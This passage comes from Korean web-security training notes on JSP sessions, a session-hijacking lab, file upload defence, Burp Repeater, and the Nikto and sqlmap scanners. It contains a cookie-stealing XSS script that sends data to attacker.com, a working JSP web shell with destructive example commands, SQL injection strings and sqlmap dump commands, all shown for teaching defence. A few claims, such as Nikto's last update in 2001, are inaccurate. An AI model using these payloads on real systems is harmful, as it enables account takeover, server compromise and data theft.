            // 로그인 실패 → 다시 로그인 페이지로
            response.sendRedirect("login.jsp?error=1");
        }
    } catch (Exception e) {
        e.printStackTrace();
        out.println("오류: " + e.getMessage());
    } finally {
        if (rs != null) rs.close();
        if (pstmt != null) pstmt.close();
        if (conn != null) conn.close();
    }
%>
```

#### 🔍 핵심 코드 분석

##### ⭐ session.setAttribute(): 세션에 값 저장

**강사님의 설명:**
> "session.setAttribute 라고 해서 session을 만드는데, uid라는 값으로 uid를 놓고요, uname이라는 값으로 uname을 놓고요."

**문법:**
```java
session.setAttribute(String key, Object value);
```

**예시:**
```java
session.setAttribute("uid", 1);           // 사용자 ID
session.setAttribute("uname", "admin");   // 사용자 이름
session.setAttribute("priority", 9);      // 권한 레벨
session.setAttribute("login", true);      // 로그인 여부
```

**세션 저장 구조:**

```
서버 메모리에 저장:
┌────────────────────────────┐
│ JSESSIONID: ABC123         │
├────────────────────────────┤
│ uid: 1                     │
│ uname: "admin"             │
│ priority: 9                │
│ login: true                │
└────────────────────────────┘

클라이언트(브라우저)에 전달:
Set-Cookie: JSESSIONID=ABC123; Path=/; HttpOnly
```

##### 🛡️ PreparedStatement: SQL Injection 방어

**강사님의 설명:**
> "PreparedStatement라는 이 함수에 대해서도 아마 다음 장에서 다시 소개를 할 거예요. 이게 여러분들이 인젝션을 방어하기 위한 함수를 쓴 거예요. 이렇게 하면 인젝션이 발생하기 힘들거든요."

**취약한 코드 (Statement 사용):**
```java
String sql = "SELECT * FROM userinfo WHERE uname='" + uname + "' AND pass='" + pass + "'";
Statement stmt = conn.createStatement();
ResultSet rs = stmt.executeQuery(sql);
```

**공격 시나리오:**
```
입력값:
uname = admin' OR '1'='1
pass = anything

실행되는 SQL:
SELECT * FROM userinfo WHERE uname='admin' OR '1'='1' AND pass='anything'
→ OR '1'='1'이 항상 참이므로 로그인 성공!
```

**안전한 코드 (PreparedStatement 사용):**
```java
String sql = "SELECT * FROM userinfo WHERE uname=? AND pass=?";
PreparedStatement pstmt = conn.prepareStatement(sql);
pstmt.setString(1, uname);  // ?를 uname으로 치환 (이스케이프 처리됨)
pstmt.setString(2, pass);   // ?를 pass로 치환
ResultSet rs = pstmt.executeQuery();
```

**방어 원리:**
- `?` 플레이스홀더 사용
- `setString()`이 자동으로 특수문자 이스케이프 처리
- SQL 문법으로 해석되지 않고 단순 문자열로 처리

**공격 시도 시:**
```
입력값:
uname = admin' OR '1'='1

실제 쿼리:
SELECT * FROM userinfo WHERE uname='admin\' OR \'1\'=\'1' AND pass='?'
→ 따옴표가 이스케이프 처리되어 공격 무력화
```

##### 📤 response.sendRedirect(): 페이지 이동

**문법:**
```java
response.sendRedirect(String location);
```

**동작 원리:**

```http
HTTP/1.1 302 Found
Location: main.jsp
Set-Cookie: JSESSIONID=ABC123; Path=/; HttpOnly

브라우저가 자동으로 main.jsp로 이동
```

### 5.5 sessionCheck.jsp: 세션 검증 모듈

#### 📄 소스 코드

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    // 세션에서 login 값 가져오기
    Object loginObj = session.getAttribute("login");

    // 세션이 null이거나 login이 true가 아니면 로그인 페이지로
    if (loginObj == null || !(Boolean)loginObj) {
        response.sendRedirect("login.jsp");
        return;  // 이후 코드 실행 중단
    }
%>
```

#### 🔍 코드 분석

##### session.getAttribute(): 세션 값 읽기

**문법:**
```java
Object session.getAttribute(String key);
```

**예시:**
```java
int uid = (Integer)session.getAttribute("uid");
String uname = (String)session.getAttribute("uname");
Boolean login = (Boolean)session.getAttribute("login");
```

**반환 타입:**
- 저장된 값이 있으면: 해당 객체 반환
- 저장된 값이 없으면: **null** 반환

##### 세션 검증 로직

```java
if (loginObj == null || !(Boolean)loginObj) {
    // 로그인 안 됨 → login.jsp로 강제 이동
    response.sendRedirect("login.jsp");
    return;  // ⭐ 중요! 이후 코드 실행 방지
}
```

**검증 시나리오:**

| 상황 | `loginObj` 값 | 결과 |
|:---|:---|:---|
| 로그인 안 함 | `null` | login.jsp로 리다이렉트 |
| 로그인 성공 | `true` | 페이지 계속 표시 |
| 로그아웃 후 | `null` 또는 `false` | login.jsp로 리다이렉트 |

### 5.6 main.jsp: 세션 검증 후 페이지 표시

#### 📄 소스 코드

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%@ include file="sessionCheck.jsp" %>
<%
    // 세션에서 사용자 정보 가져오기
    String uname = (String)session.getAttribute("uname");
    Integer priority = (Integer)session.getAttribute("priority");
%>
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>메인 페이지</title>
</head>
<body>
    <h2>환영합니다 <%= uname %>님</h2>
    <p>권한 레벨: <%= priority %></p>

    <ul>
        <li><a href="mypage.jsp">마이 페이지</a></li>
        <li><a href="board.jsp">게시판</a></li>
        <li><a href="logout.jsp">로그아웃</a></li>
    </ul>
</body>
</html>
```

#### 🔍 핵심 포인트

##### <%@ include file="sessionCheck.jsp" %>

**강사님의 설명:**
> "include 파일에서 sessioncheck.jsp를 이렇게 include 구문으로 파일을 요기에다 삽입할 수 있어요. 그럼 이 jsp 구문이 요기에 그대로 펼쳐져서 요기에 들어가거든요."

**동작 원리:**

```
main.jsp 실행 시:

1. <%@ include file="sessionCheck.jsp" %> 만남
   ↓
2. sessionCheck.jsp의 내용을 현재 위치에 삽입
   ↓
3. 세션 검증 코드 실행
   ↓
4. 세션 유효하면 → 나머지 HTML 출력
   세션 무효하면 → login.jsp로 리다이렉트 (return으로 중단)
```

**장점:**
- 모든 보호된 페이지에서 재사용 가능
- 중복 코드 제거
- 유지보수 용이 (sessionCheck.jsp 한 곳만 수정)

##### <%= 변수 %>: 출력 표현식

```jsp
<h2>환영합니다 <%= uname %>님</h2>
```

**실행 결과:**
```html
<h2>환영합니다 admin님</h2>
```

### 5.7 logout.jsp: 세션 삭제

#### 📄 소스 코드

```jsp
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>
<%
    // 세션 무효화 (모든 세션 데이터 삭제)
    session.invalidate();

    // 로그인 페이지로 리다이렉트
    response.sendRedirect("login.jsp");
%>
```

#### 🔍 session.invalidate()

**동작:**
- 현재 세션의 **모든 데이터 삭제**
- 서버에서 세션 ID 제거
- 브라우저 쿠키의 JSESSIONID는 남아있지만 서버에서 무효 처리

**로그아웃 흐름:**



### 5.8 세션 타임아웃 설정

#### ⏱️ session.setMaxInactiveInterval()

**강사님의 설명:**
> "session 유지 시간이나 이런 것도 set max inactive interval 이런 걸로 해가지고 내가 만약에 더 이상 클릭이 없고 페이지 이동이 없을 때 session은 이제 내가 돌아다닐 때마다 업데이트가 되는데 time 값이, 제가 아무것도 안 하고 있을 때 time out 때는 session이 끊기는 시간이에요."

**문법:**
```java
session.setMaxInactiveInterval(int seconds);
```

**예시:**
```java
// 30분 후 자동 로그아웃
session.setMaxInactiveInterval(30 * 60);  // 1800초
```

**동작 원리:**
- 마지막 요청 이후 지정된 시간 동안 요청이 없으면 세션 자동 삭제
- 페이지 이동, AJAX 요청 등 모든 요청이 타이머를 리셋

**보안 이점:**
- 사용자가 로그아웃 없이 자리를 비웠을 때 자동 로그아웃
- 세션 고정 공격(Session Fixation) 위험 감소


## 6. 세션 탈취 실습 및 우회 기법

### 6.1 실습 시나리오

**강사님의 미션:**
> "여러분들이 이렇게 해서 그 코드로 사이트가 제대로 동작이 되면 저처럼 브라우저를 두 개를 열고 한쪽에서는 로그인하고 session 확인하고 session을 다른 브라우저에서 로그인하지 말고 그 session을 이용해서 관리자 권한으로 들어가 봐라."

#### 🎯 실습 목표

**공격자 시나리오:**
1. 정상 사용자가 Chrome에서 로그인
2. 공격자가 해당 사용자의 세션 ID 탈취
3. Edge 브라우저에서 로그인 없이 세션 ID만으로 접근

### 6.2 실습 Step 1: 정상 로그인 (Chrome)

#### 📟 Step 1-1: 로그인 페이지 접속

```
Chrome 브라우저 열기
→ http://192.168.131.100/session/login.jsp
```

#### 📟 Step 1-2: 로그인 정보 입력

```
아이디: admin
비밀번호: 1234
→ 로그인하기 버튼 클릭
```

#### 📟 Step 1-3: 세션 ID 확인

**개발자 도구 열기:**
```
Chrome 브라우저
→ F12 (또는 Ctrl+Shift+I)
→ Application 탭
→ 왼쪽 Storage → Cookies → http://192.168.131.100
```

**확인되는 쿠키:**

| Name | Value | Domain | Path | HttpOnly |
|:---|:---|:---|:---|:---:|
| **JSESSIONID** | 9A8B7C6D5E4F3G2H1I | 192.168.131.100 | / | ✅ |

**세션 ID 복사:**
```
JSESSIONID 값 더블클릭
→ Ctrl+C (복사)

복사된 값: 9A8B7C6D5E4F3G2H1I
```

### 6.3 실습 Step 2: 세션 탈취 (Edge)

#### 📟 Step 2-1: 새 브라우저 열기

```
Edge 브라우저 열기 (또는 Firefox, Safari 등)
→ http://192.168.131.100/session/main.jsp 직접 입력
```

**결과:**
```
자동으로 login.jsp로 리다이렉트됨

이유: Edge는 독립된 브라우저이므로 세션이 없음
```

#### 📟 Step 2-2: 개발자 도구에서 세션 ID 변조

**개발자 도구 열기:**
```
Edge 브라우저
→ F12
→ Application 탭
→ Cookies → http://192.168.131.100
```

**현재 상태:**
```
쿠키가 없거나, 다른 JSESSIONID가 있을 수 있음
```

**세션 ID 변조:**

1. **기존 JSESSIONID 더블클릭**
2. **Chrome에서 복사한 값 붙여넣기**
   ```
   기존: (없음 또는 다른 값)
   변경: 9A8B7C6D5E4F3G2H1I
   ```
3. **Enter 키로 확정**

#### 📟 Step 2-3: 페이지 새로고침

```
Edge 브라우저에서 F5 (새로고침)
또는 주소창에서 다시 입력:
http://192.168.131.100/session/main.jsp
```

**결과:**

```html
환영합니다 admin님
권한 레벨: 9

• 마이 페이지
• 게시판
• 로그아웃
```

✅ **성공!**: 로그인 없이 admin 권한으로 접근!

### 6.4 실습 Step 3: 로그아웃 테스트

#### 📟 Chrome에서 로그아웃

```
Chrome 브라우저
→ 로그아웃 버튼 클릭
→ login.jsp로 리다이렉트됨
```

**서버에서 발생하는 일:**
```java
session.invalidate();  // 세션 무효화
```

#### 📟 Edge에서 페이지 이동 시도

```
Edge 브라우저 (아직 main.jsp 열려있음)
→ 마이 페이지 링크 클릭
```

**결과:**
```
자동으로 login.jsp로 리다이렉트됨

이유: Chrome에서 로그아웃하여 서버의 세션이 무효화됨
     Edge가 가진 JSESSIONID도 이제 무효
```

**강사님의 설명:**
> "다른 친구가 로그아웃을 해버리니까 내가 여기에서 다른 페이지를 가려니까 이제 이 session이 더 이상 session id가 유효하지가 않아요. 그러니까 다시 로그인해주세요 하는 로그인 페이지로 이동을 한 거죠."

### 6.5 세션 탈취 공격 기법

#### 🔴 1. XSS (Cross-Site Scripting)을 통한 탈취

**공격 시나리오:**

게시판에 다음과 같은 악성 스크립트 삽입:

```html
<script>
// 세션 ID를 공격자 서버로 전송
var sessionId = document.cookie;
var img = new Image();
img.src = "http://attacker.com/steal.php?cookie=" + encodeURIComponent(sessionId);
document.body.appendChild(img);
</script>
```

**동작 원리:**



**강사님의 계획:**
> "오후에는 취약한 게시판을 붙여놓고 거기에 자바스크립트를 이용해서 로그인한 사용자한테 글을 남길 거예요. 글을 남기고 쿠키를 내가 그 글을 클릭했을 때 쿠키를 다른 사람한테 전송하는 코드를 숨겨놓을 거예요."

#### 🔴 2. 네트워크 스니핑 (HTTP)

**공격 조건:**
- HTTPS가 아닌 HTTP 사용
- 공격자가 같은 네트워크에 있음 (Wi-Fi, LAN)

**도구:**
- Wireshark
- tcpdump
- Ettercap (ARP Spoofing + Sniffing)

**방어:**
- **HTTPS 사용 필수!**
- HTTP에서는 세션 ID가 평문으로 전송됨

#### 🔴 3. Session Fixation (세션 고정 공격)

**공격 시나리오:**

1. 공격자가 세션 ID를 미리 생성
2. 피해자에게 해당 세션 ID로 로그인하도록 유도
   ```
   http://victim.com/login.jsp?JSESSIONID=ATTACKER_SESSION
   ```
3. 피해자가 로그인하면 공격자가 알고 있는 세션 ID로 로그인됨
4. 공격자가 동일한 세션 ID로 접근

**방어:**
- 로그인 성공 시 **세션 ID 재발급**
  ```java
  session.invalidate();
  session = request.getSession(true);  // 새 세션 생성
  ```

### 6.6 세션 보안 강화 방법

#### 🛡️ 1. HttpOnly 플래그

**설정:**
```xml
<!-- web.xml -->
<session-config>
    <cookie-config>
        <http-only>true</http-only>
    </cookie-config>
</session-config>
```

**효과:**
- JavaScript에서 `document.cookie`로 접근 불가
- XSS 공격으로 세션 ID 탈취 차단

**검증:**
```javascript
// 콘솔에서 실행
console.log(document.cookie);

// HttpOnly=true인 경우:
"" (빈 문자열 또는 HttpOnly가 아닌 다른 쿠키만 출력)
```

#### 🛡️ 2. Secure 플래그

**설정:**
```xml
<session-config>
    <cookie-config>
        <secure>true</secure>
    </cookie-config>
</session-config>
```

**효과:**
- **HTTPS 연결에서만** 쿠키 전송
- HTTP에서는 세션 ID 전송 안 됨

#### 🛡️ 3. SameSite 속성

**설정:**
```xml
<session-config>
    <cookie-config>
        <same-site>Strict</same-site>
    </cookie-config>
</session-config>
```

**옵션:**

| 값 | 동작 | 보안 수준 |
|:---|:---|:---:|
| **Strict** | 같은 사이트에서만 쿠키 전송 | 최고 |
| **Lax** | 링크 클릭 시에만 허용 | 중간 |
| **None** | 모든 요청에서 전송 (Secure 필수) | 낮음 |

**효과:**
- CSRF (Cross-Site Request Forgery) 공격 방어

#### 🛡️ 4. 세션 타임아웃 설정

**web.xml 설정:**
```xml
<session-config>
    <session-timeout>30</session-timeout>  <!-- 30분 -->
</session-config>
```

**코드 설정:**
```java
session.setMaxInactiveInterval(30 * 60);  // 30분 (초 단위)
```

#### 🛡️ 5. IP 주소 검증

**로그인 시 IP 저장:**
```java
String userIP = request.getRemoteAddr();
session.setAttribute("userIP", userIP);
```

**페이지 접근 시 검증:**
```java
String sessionIP = (String)session.getAttribute("userIP");
String currentIP = request.getRemoteAddr();

if (!sessionIP.equals(currentIP)) {
    session.invalidate();
    response.sendRedirect("login.jsp?error=ip_mismatch");
}
```

**주의사항:**
- 모바일 네트워크에서는 IP가 자주 바뀔 수 있음
- 실제 운영 환경에서는 신중히 적용

#### 🛡️ 6. User-Agent 검증

**로그인 시 User-Agent 저장:**
```java
String userAgent = request.getHeader("User-Agent");
session.setAttribute("userAgent", userAgent);
```

**검증:**
```java
String sessionUA = (String)session.getAttribute("userAgent");
String currentUA = request.getHeader("User-Agent");

if (!sessionUA.equals(currentUA)) {
    session.invalidate();
    response.sendRedirect("login.jsp?error=ua_mismatch");
}
```

### 6.7 오전 실습 미션 정리

#### ✅ 실습 체크리스트

**오전 미션:**
- [ ] session 디렉토리 생성
- [ ] login.jsp, loginCheck.jsp, main.jsp, sessionCheck.jsp 파일 작성
- [ ] DB 연결 정보 수정 (IP 주소)
- [ ] 사이트 정상 동작 확인
- [ ] Chrome 브라우저에서 로그인
- [ ] 개발자 도구로 JSESSIONID 확인 및 복사
- [ ] Edge 브라우저에서 세션 ID 붙여넣기
- [ ] 로그인 없이 관리자 페이지 접근 성공
- [ ] Chrome에서 로그아웃 후 Edge 접근 차단 확인

#### 📋 핵심 학습 포인트

1. **세션의 필요성**: URL만으로는 사용자를 구분할 수 없음
2. **세션 생성**: `session.setAttribute()`
3. **세션 검증**: `session.getAttribute()`
4. **세션 무효화**: `session.invalidate()`
5. **세션 탈취**: 브라우저 개발자 도구로 간단히 복사 가능
6. **보안 대책**: HttpOnly, Secure, SameSite, 타임아웃, IP/UA 검증


## 📚 참고 자료 및 추가 학습

### 관련 명령어 요약

| 명령어/함수 | 설명 |
|:---|:---|
| `session.setAttribute(key, value)` | 세션에 값 저장 |
| `session.getAttribute(key)` | 세션에서 값 읽기 |
| `session.invalidate()` | 세션 무효화 (로그아웃) |
| `session.setMaxInactiveInterval(sec)` | 세션 타임아웃 설정 |
| `response.sendRedirect(url)` | 다른 페이지로 리다이렉트 |
| `request.getParameter(name)` | 폼 파라미터 읽기 |
| `PreparedStatement` | SQL Injection 방어용 쿼리 실행 |

### 다음 학습 내용 예고

**오후 실습:**
1. Burp Suite Intruder로 브루트 포스 공격
2. tcpdump + Wireshark로 패킷 분석
3. 웹쉘 제작 및 업로드 취약점
4. XSS + 세션 탈취 통합 실습

**다음 주 월요일:**
1. 웹 서버 보안 (Apache, Nginx)
2. 웹 해킹 도구 종합 실습
3. 보안 위협 이론 (SNS, 최신 트렌드)


**작성 완료 시각**: Section 1 완료
**다음 섹션**: Section 2 - 브루트 포스 공격 및 패킷 분석

# Section 2: 파일 업로드 보안 및 웹 스캐너


## 7. 파일 업로드 보안: MD5 해시 기반 방어

### 7.1 파일 업로드 취약점의 위험성

**강사님의 경고:**
> "업로드를 했을 때 사실은 파일을 그냥 올리는 게 아니라... jsp 파일을 업로드하고 직접 여기에 웹을 통해서 수행을 한다거나 웹쉘 업로드를 최소한 이런 식으로 해서 막는 거죠."

#### 🔴 위험 시나리오

**공격 단계:**


**악성 JSP 웹쉘 예시:**
```jsp
<%@ page import="java.io.*" %>
<%
    String cmd = request.getParameter("cmd");
    if (cmd != null) {
        Process p = Runtime.getRuntime().exec(cmd);
        BufferedReader br = new BufferedReader(
            new InputStreamReader(p.getInputStream())
        );
        String line;
        while ((line = br.readLine()) != null) {
            out.println(line + "<br>");
        }
    }
%>
```

**사용 방법:**
```
http://victim.com/upload/malicious.jsp?cmd=ls -la
http://victim.com/upload/malicious.jsp?cmd=cat /etc/passwd
http://victim.com/upload/malicious.jsp?cmd=rm -rf /
```

### 7.2 MD5 해시를 이용한 파일명 변환

#### 📖 MD5란?

**MD5 (Message-Digest Algorithm 5)**:
- **단방향 암호화**: 암호화는 가능하지만 복호화 불가능
- **고정 길이 출력**: 입력 크기와 무관하게 항상 128비트 (32자리 16진수)
- **고유성**: 같은 파일은 항상 같은 해시, 다른 파일은 다른 해시

#### 📟 MD5 해시 생성 실습

**리눅스에서 MD5 해시 생성:**

```bash
# wcl.jsp 파일의 MD5 해시 생성
$ md5sum wcl.jsp
a8f5f167f44f4964e6c998dee827110c  wcl.jsp

# 동일한 파일을 복사해도 같은 해시
$ cp wcl.jsp wcl_copy.jsp
$ md5sum wcl_copy.jsp
a8f5f167f44f4964e6c998dee827110c  wcl_copy.jsp

# 파일에 공백 한 칸만 추가해도 완전히 다른 해시
$ echo " " >> wcl.jsp
$ md5sum wcl.jsp
9d2e5f3a1b4c6d7e8f9a0b1c2d3e4f5a  wcl.jsp  ← 완전히 다른 값!
```

#### 🔍 해시 충돌 가능성

**강사님의 설명:**
> "md5sum 겹칠 수 있잖아요. 이건 절대 겹치기가 힘들죠. 절대라고는 하지만 뭐 불가능한 건 아니에요. 태평양의 모래 한 알처럼 겹치듯이 겹칠 가능성도 있죠."

**충돌 확률:**
- 이론적으로는 가능 (생일 공격)
- 실제로는 거의 불가능 (2^128 = 3.4 × 10^38 가지 경우의 수)
- 2004년 MD5 충돌 발견 사례 있음 (보안 취약점)
- 현재는 SHA-256 권장

### 7.3 파일 업로드 보안 구현

#### 📊 데이터베이스 설계

**파일 정보 저장 테이블:**

```sql
CREATE TABLE file_uploads (
    file_id INT AUTO_INCREMENT PRIMARY KEY,
    real_name VARCHAR(255) NOT NULL,        -- 사용자가 업로드한 원본 파일명
    md5_name VARCHAR(32) NOT NULL UNIQUE,   -- MD5 해시로 변환된 파일명
    upload_date DATETIME DEFAULT NOW(),
    file_size INT,
    uploader_id INT
);
```

**예시 데이터:**

| file_id | real_name | md5_name | upload_date | file_size | uploader_id |
|:---:|:---|:---|:---|:---:|:---:|
| 1 | wcl.jsp | a8f5f167f44f4964e6c998dee827110c | 2025-12-23 10:30:15 | 1024 | 5 |
| 2 | photo.jpg | b9c7d8e9f0a1b2c3d4e5f6a7b8c9d0e1 | 2025-12-23 10:31:22 | 204800 | 3 |

#### 📟 업로드 처리 로직 (JSP)

```jsp
<%@ page import="java.io.*, java.security.*, javax.xml.bind.DatatypeConverter" %>
<%
    // 1. 업로드된 파일 받기
    Part filePart = request.getPart("file");
    String realName = getFileName(filePart);

    // 2. 파일을 임시로 읽어서 MD5 해시 생성
    InputStream fileContent = filePart.getInputStream();
    MessageDigest md = MessageDigest.getInstance("MD5");
    byte[] buffer = new byte[8192];
    int read;
    while ((read = fileContent.read(buffer)) > 0) {
        md.update(buffer, 0, read);
    }
    byte[] hashBytes = md.digest();
    String md5Name = DatatypeConverter.printHexBinary(hashBytes).toLowerCase();

    // 3. MD5 해시를 파일명으로 저장
    String uploadDir = "/var/lib/tomcat9/webapps/ROOT/upload/";
    File destFile = new File(uploadDir + md5Name);
    filePart.write(destFile.getAbsolutePath());

    // 4. DB에 정보 저장
    String sql = "INSERT INTO file_uploads (real_name, md5_name, uploader_id) VALUES (?, ?, ?)";
    PreparedStatement pstmt = conn.prepareStatement(sql);
    pstmt.setString(1, realName);
    pstmt.setString(2, md5Name);
    pstmt.setInt(3, userId);
    pstmt.executeUpdate();

    out.println("파일 업로드 완료: " + realName);
%>
```

#### 📟 다운로드 처리 로직

```jsp
<%@ page import="java.io.*, java.sql.*" %>
<%
    int fileId = Integer.parseInt(request.getParameter("file_id"));

    // 1. DB에서 파일 정보 조회
    String sql = "SELECT real_name, md5_name FROM file_uploads WHERE file_id=?";
    PreparedStatement pstmt = conn.prepareStatement(sql);
    pstmt.setInt(1, fileId);
    ResultSet rs = pstmt.executeQuery();

    if (rs.next()) {
        String realName = rs.getString("real_name");
        String md5Name = rs.getString("md5_name");

        // 2. 실제 파일은 MD5 이름으로 저장되어 있음
        String uploadDir = "/var/lib/tomcat9/webapps/ROOT/upload/";
        File file = new File(uploadDir + md5Name);

        // 3. 사용자에게는 원본 파일명으로 다운로드 제공
        response.setContentType("application/octet-stream");
        response.setHeader("Content-Disposition", "attachment; filename=\"" + realName + "\"");

        FileInputStream fis = new FileInputStream(file);
        OutputStream os = response.getOutputStream();
        byte[] buffer = new byte[8192];
        int bytesRead;
        while ((bytesRead = fis.read(buffer)) != -1) {
            os.write(buffer, 0, bytesRead);
        }
        fis.close();
        os.close();
    }
%>
```

### 7.4 추가 보안 강화 방법

#### 🛡️ 1. 확장자 검증

```jsp
String[] allowedExtensions = {".jpg", ".jpeg", ".png", ".gif", ".pdf", ".zip"};
String extension = realName.substring(realName.lastIndexOf(".")).toLowerCase();

boolean isAllowed = false;
for (String ext : allowedExtensions) {
    if (extension.equals(ext)) {
        isAllowed = true;
        break;
    }
}

if (!isAllowed) {
    out.println("허용되지 않은 파일 형식입니다.");
    return;
}
```

#### 🛡️ 2. MIME 타입 검증

```jsp
String contentType = filePart.getContentType();
String[] allowedTypes = {"image/jpeg", "image/png", "application/pdf"};

boolean isValidType = false;
for (String type : allowedTypes) {
    if (contentType.equals(type)) {
        isValidType = true;
        break;
    }
}

if (!isValidType) {
    out.println("허용되지 않은 파일 타입입니다.");
    return;
}
```

#### 🛡️ 3. 파일 크기 제한

```jsp
long maxSize = 10 * 1024 * 1024;  // 10MB
long fileSize = filePart.getSize();

if (fileSize > maxSize) {
    out.println("파일 크기가 10MB를 초과합니다.");
    return;
}
```

#### 🛡️ 4. 업로드 디렉토리 실행 권한 제거

**웹 서버 설정 (Tomcat - web.xml):**
```xml
<security-constraint>
    <web-resource-collection>
        <web-resource-name>Upload Directory</web-resource-name>
        <url-pattern>/upload/*</url-pattern>
    </web-resource-collection>
    <auth-constraint>
        <role-name>NONE</role-name>
    </auth-constraint>
</security-constraint>
```

**파일 시스템 권한:**
```bash
# 업로드 디렉토리에서 실행 권한 제거
$ chmod -R 644 /var/lib/tomcat9/webapps/ROOT/upload/
$ chmod 755 /var/lib/tomcat9/webapps/ROOT/upload  # 디렉토리만 읽기 가능
```


## 8. Burp Suite Repeater 기능

### 8.1 Repeater란?

**강사님의 설명:**
> "리피터는 계속 이 메시지를 반복해줘요. 수동으로. 내가 손으로 특정 필드 값이나 이런 거 규칙적으로 변경을 한다든가 한 번씩 한 번씩 내가 뭔가 편집을 해서 테스트할 때 계속 똑같은 리퀘스트를 날리는데 내가 수작업으로 편집해서 보낼 때 쓰는 게 리피터다."

#### 📖 Intruder vs Repeater

| 구분 | Intruder | Repeater |
|:---|:---|:---|
| **자동화** | 완전 자동 | 수동 편집 |
| **사용 목적** | 브루트 포스, 대량 테스트 | 세밀한 수동 테스트 |
| **페이로드** | 규칙 기반 자동 생성 | 매번 수동 입력 |
| **속도** | 빠름 (동시 요청 가능) | 느림 (한 번에 하나씩) |
| **사용 사례** | 패스워드 크래킹, 파라미터 퍼징 | SQL Injection 수동 테스트, 응답 비교 |

### 8.2 Repeater 사용 방법

#### 📟 Step 1: Repeater로 요청 보내기

```
Burp Suite
└─ Proxy → HTTP History
   └─ 원하는 요청 선택
      └─ 우클릭 → Send to Repeater
```

#### 📟 Step 2: Request 편집

**Repeater 탭 구조:**

```
┌─────────────────────────────────────────────────────────┐
│ Repeater                                                │
├─────────────────────────────────────────────────────────┤
│ Request                          │ Response             │
│                                  │                      │
│ GET /login.jsp?id=admin&pass=1234│                      │
│ Host: 192.168.131.100            │                      │
│                                  │                      │
│ [Send] 버튼                       │                      │
└─────────────────────────────────────────────────────────┘
```

#### 📟 Step 3: 요청 편집 및 재전송

**시나리오: SQL Injection 테스트**

**시도 1: 정상 로그인**
```http
POST /loginCheck.jsp HTTP/1.1
Host: 192.168.131.100
Content-Type: application/x-www-form-urlencoded

uname=admin&pass=1234
```

**응답:**
```http
HTTP/1.1 302 Found
Location: main.jsp
```
→ 로그인 성공

**시도 2: SQL Injection 시도**
```http
POST /loginCheck.jsp HTTP/1.1
Host: 192.168.131.100
Content-Type: application/x-www-form-urlencoded

uname=admin' OR '1'='1&pass=anything
```

**응답:**
```http
HTTP/1.1 200 OK

로그인 실패
```
→ PreparedStatement로 방어됨!

**시도 3: 패스워드 필드 변경**
```http
uname=admin&pass=wrongpass
```

**응답 비교:**
- 응답 길이: 5032 bytes
- 메시지: "로그인 실패"

이런 식으로 여러 값을 하나씩 변경하며 응답을 비교 분석합니다.

### 8.3 Repeater 활용 사례

#### 🔍 1. XSS 페이로드 테스트

```http
GET /board.jsp?search=<script>alert('XSS')</script>
```

→ 응답에서 스크립트가 필터링되는지 확인

#### 🔍 2. 헤더 조작

```http
GET /admin.jsp HTTP/1.1
Host: 192.168.131.100
User-Agent: Mozilla/5.0
X-Forwarded-For: 127.0.0.1  ← IP 위조 시도
Cookie: role=user            ← admin으로 변경 시도
```

#### 🔍 3. API 엔드포인트 테스트

```http
GET /api/users/1 HTTP/1.1
→ 사용자 1의 정보 조회

GET /api/users/2 HTTP/1.1
→ 사용자 2의 정보 조회 (권한 확인)
```


## 9. 웹 취약점 스캐너 소개

### 9.1 스캐너의 필요성

**강사님의 설명:**
> "여러분들이 전문가는 아니라 모든 사항을 수동으로 다 일일이 찾아서 검사하기는 힘들어요. 근데 이런 식으로 오토 스캔만 돌리더라도... 어느 정도까지는 쓸 수 있는 쓸만한 리포트가 돼요."

#### 📊 수동 vs 자동 스캐닝

| 구분 | 수동 테스트 | 자동 스캐너 |
|:---|:---|:---|
| **정확도** | 높음 | 중간 (False Positive 있음) |
| **속도** | 느림 | 빠름 |
| **커버리지** | 제한적 | 광범위 |
| **전문성 요구** | 높음 | 낮음 |
| **비용** | 고비용 (인력) | 저비용 (도구) |
| **추천 방식** | **자동 스캔 먼저 → 수동 검증** | |

### 9.2 주요 웹 스캐너 비교

#### 📊 스캐너 종류

| 스캐너 | 타입 | 장점 | 단점 | 추천도 |
|:---|:---|:---|:---|:---:|
| **OWASP ZAP** | 오픈소스 | 무료, 지속 업데이트, 사용 쉬움 | ⭐⭐⭐⭐⭐ |
| **Nikto** | 오픈소스 | CLI, 빠름, 가벼움 | 오래됨 (2001년 업데이트) | ⭐⭐⭐ |
| **Nessus** | 상용 | 강력, 네트워크 스캔 포함 | 유료 | ⭐⭐⭐⭐ |
| **Burp Suite Pro** | 상용 | 통합 도구, 강력 | 고가 | ⭐⭐⭐⭐⭐ |
| **Acunetix** | 상용 | 웹 특화, 상세 리포트 | 고가 | ⭐⭐⭐⭐ |
| **SQL Map** | 오픈소스 | SQL Injection 전문 | 단일 기능 | ⭐⭐⭐⭐ |

### 9.3 Nikto: CLI 웹 스캐너

#### 📖 Nikto 소개

**특징:**
- 2001년 마지막 업데이트 (오래됨)
- CLI 기반 (스크립트 자동화 가능)
- 빠른 스캔
- 웹 서버 설정 취약점 탐지

**설치:**
```bash
$ sudo apt install nikto
```

**기본 사용법:**
```bash
# 기본 스캔
$ nikto -h http://192.168.131.100

# 특정 포트 스캔
$ nikto -h http://192.168.131.100 -p 8080

# SSL 사이트 스캔
$ nikto -h https://example.com -ssl

# 결과를 파일로 저장
$ nikto -h http://target.com -o report.html -Format html
```

### 9.4 SQL Map: SQL Injection 자동화

#### 📖 SQL Map 소개

**강사님의 추천:**
> "SQL 맵 같은 경우는 뭐 너무 유명하니까 이거는 유명한 도구죠. 이건 지금도 가장 그 제일 많이 쓰고 있는 도구 중에 하나고..."

**특징:**
- SQL Injection 자동 탐지 및 익스플로잇
- 다양한 DBMS 지원 (MySQL, PostgreSQL, Oracle, MSSQL 등)
- 데이터베이스 구조 덤프
- 데이터 추출

**설치:**
```bash
$ sudo apt install sqlmap
```

**기본 사용법:**

```bash
# URL 직접 테스트
$ sqlmap -u "http://target.com/login.jsp?id=1"

# POST 데이터 테스트
$ sqlmap -u "http://target.com/login.jsp" --data="uname=admin&pass=1234"

# 쿠키 포함
$ sqlmap -u "http://target.com/page.jsp" --cookie="JSESSIONID=ABC123"

# 데이터베이스 목록 조회
$ sqlmap -u "http://target.com/vuln.jsp?id=1" --dbs

# 특정 DB의 테이블 조회
$ sqlmap -u "http://target.com/vuln.jsp?id=1" -D mydb --tables

# 테이블 데이터 덤프
